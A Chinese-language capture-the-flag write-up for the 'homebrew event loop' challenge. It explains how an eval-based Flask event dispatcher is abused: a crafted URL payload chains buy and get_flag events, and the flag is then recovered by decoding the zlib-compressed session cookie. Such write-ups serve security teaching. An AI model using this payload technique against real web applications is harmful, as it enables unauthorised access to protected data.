

#### homebrew event loop

><http://116.85.48.107:5002/d5af31f66147e857>

进入网站，发现有view source code页面，点击去可以看到这个网站的源码

发现这个网站是使用python+flask进行搭建。

执行流程为 

1. entry_point(): 解码用户的url参数，并将session中的钻石数量和点数读取出来。session默认情况下是存储到cookie中的。默认flask的session模块存储数据的时候不会进行加密（编码还是会做的），只进行了防篡改处理

2. trigger_event(): 将当前的请求url的参数放入到session["log"]中，最多只保留最新的5个请求参数，然后将当前请求加入到request.event_queue中

3. execute_event_loop(): 对request.event_queue中的请求逐个进行解析，获取用户需要执行什么函数，传递的参数是什么，然后进行调用。此处使用了eval函数来实现动态调用函数。


还有一些其他的参数

FLAG()：返回flag，不接受参数，因为不接受参数所以不能直接用execute_event_loop()中的eval进行调用


get_flag_handler(): 判断当前用户的钻石数量是否有五个或五个以上，如果是则调用trigger_event()函数，参数为`'func:show_flag;' + FLAG()`，否则参数为回到首页


show_flag_function(): 一个被干掉的后门，现在只能返回一个固定的字符串


buy_handler(): 调用这个函数需要传递一个整数数值，然后这个函数会把当前的钻石数量加上这个整数数值，然后再去调用consume_point_function()


consume_point_function(): 判断当前点数是否足够消费，如果不够则引发异常,将当前钻石数和点数回到前一个会话的状态


一开始我死磕eval函数，想着能通过字符的过滤，仔细想了想发现点括号之类的符号不让用，这个eval基本没法利用，只能调用一个能接受列表类型的参数的函数。

后来想去控制cookie中的钻石数和点数，来进行模板注入。发现都会将数据转成整型，这条路走不通。而且不知道appkey


### 正文


后来放了好几天，又重新读了一下源码，我发现我忽略了一个很重要的事就是可以通过利用eval函数，手工调用trigger_event()函数，向request.event_queue加入一系列事件。

通过这么调用`trigger_event([buy_handler(5), get_flag_handler()])`, 就可让execute_event_loop()执行buy_handler()，这样我便可以让自己的钻石数量达到5个，然后再紧接着调用get_flag_handler()函数将flag放到session中，我再解码cookie就能拿到flag，这样就算发生取消交易，flag还是在日志里，不会被删掉


关于为什么能做到上面这个操作，要同时看trigger_event和event_loop

```python
def trigger_event(event): 
    session['log'].append(event) 
    if len(session['log']) > 5: session['log'] = session['log'][-5:] 
    if type(event) == type([]): 
        request.event_queue += event 
    else: 
        request.event_queue.append(event) 
```

这个函数可以接收一个列表，接收到列表后会将列表与request.event_queue进行合并

这里想让那两个函数紧接着执行肯定需要给这个函数传递一个列表，列表元素为这两个函数名+对应的参数

从哪里去搞这个列表给他呢，刚好event_loop的对参数的解析能够给我们提供一个列表

```python
def execute_event_loop(): 
    valid_event_chars = set('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_0123456789:;#') 
    resp = None 
    while len(request.event_queue) > 0: 
        event = request.event_queue[0] # `event` is something like "action:ACTION;ARGS0#ARGS1#ARGS2......" 
        request.event_queue = request.event_queue[1:] 
        if not event.startswith(('action:', 'func:')): continue 
        for c in event: 
            if c not in valid_event_chars: break 
        else: 
            is_action = event[0] == 'a' 
            action = get_mid_str(event, ':', ';') 
            args = get_mid_str(event, action+';').split('#') 
```

这个函数的注释说了，一个事件格式是`action:ACTION;ARGS0#ARGS1#ARGS2...`

ACTION就是执行的函数名（虽然加了个后缀，但是因为eval，可以用#注释掉后面的后缀）

ARGS0#ARGS1#ARGS2就是执行这个函数时传递的参数，其中参数的分割是使用str的split方法，这样参数就变成了一个列表[ARGS0, ARGS1, ARGS2]，如果ACTION指定为trigger_event#，那么这个列表就会传进去

对于调用trigger_event，列表应该是[action:函数1;参数1#参数2, action:函数2;参数......]

对于想拿flag的利用，应该是[action:buy;5, action:get_flag;]


说完了原理，讲一下具体的利用过程

首先买5个钻石，再调用get_flag_handler把flag存储到cookie中

```
访问http://116.85.48.107:5002/d5af31f66147e857/?action:trigger_event%23;action:buy;5%23action:get_flag;
服务器会set-cookie，拿到这个cookie
```



```python
$ python3
Python 3.5.2 (default, Nov 12 2018, 13:43:14)
[GCC 5.4.0 20160609] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from base64 import *
>>> from zlib import *

>>> decompress(urlsafe_b64decode("eJyNjltLwzAYhv-K5HoXaersWujN0BQGbXGrzUFEmmXOZmkW7LppRv-7QVCQeeHdx3t4vvcM9H4LksczuBIgAYwUsCHxUJrlR0Ok4XTxwinXwtyrEmElM30UyraS7qJiVbyycGkFur7hqIYU8Z6RdQTGyQWuWwSbqg-8deFILXHciQyb8pSmYHz6aXNTD8xZJdDUSRJoGs6PDZnC0j2kf5AMt5yuI5_Ycbr9Iv0GuSaLw--VechgXs-cVMUg8ew9v52fKMIl92OqO1ytglh57S0n_30GzNA9t4dN14METoDdt-bgz3D8BJe3cJs==="))

b'{"log":[{" b":"YWN0aW9uOnRyaWdnZXJfZXZlbnQjO2FjdGlvbjpidXk7NSNhY3Rpb246Z2V0X2ZsYWc7"},[{" b":"YWN0aW9uOmJ1eTs1"},{" b":"YWN0aW9uOmdldF9mbGFnOw=="}],[{" b":"ZnVuYzpjb25zdW1lX3BvaW50OzU="},{" b":"YWN0aW9uOnZpZXc7aW5kZXg="}],{" b":"ZnVuYzpzaG93X2ZsYWc7M3Y0MV8zdjNudF8xMDBwX2FOZF9mTEFTS19jMDBrMWU="},{" b":"YWN0aW9uOnZpZXc7aW5kZXg="}],"num_items":0,"points":3}'

>>> b64decode("ZnVuYzpzaG93X2ZsYWc7M3Y0MV8zdjNudF8xMDBwX2FOZF9mTEFTS19jMDBrMWU=")
b'func:show_flag;3v41_3v3nt_100p_aNd_fLASK_c00k1e'

```


如果session数据不是很长，flask会将session的数据存储到cookie的第一个点之前，使用base64编码

如果session数据较长，flask会将在cookie的第一个字符设为一个点，用于表示该数据被zlib压缩过。并且使用urlsafe_base64进行编码